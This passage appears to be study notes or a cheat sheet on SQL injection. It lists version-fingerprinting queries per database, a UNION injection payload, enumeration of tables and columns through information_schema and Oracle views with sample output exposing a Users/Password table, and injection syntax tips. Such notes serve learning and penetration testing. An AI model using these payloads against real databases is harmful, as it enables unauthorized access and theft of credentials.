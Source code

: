 | Database Type | Query |
| - | - |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

Often it's wise to pair it with an `UNION` attack
`' UNION SELECT @@version`

## Listing the contents of the database

Databases have a set of views called the information schema, which provides the information about database tables, columns and so on.
Oracle does not have such feature.

The query for a schema on other databases
`SELECT * FROM information_schema.tables`
With an output looking something close to this:
```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Then after getting table names, we could query for column names:
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
Result:
```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

## Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:
You can list tables by querying all_tables:
`SELECT * FROM all_tables`
You can google column names, they are usually of string type.

You can list columns by querying all_tab_columns:
`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

##
SQL Syntactic things to try when injecting

- URL encode special symbols
- Add conditionals
- End query with `;` symbol and add queries after that
- Concatinate strings with `||`. Usually various functions
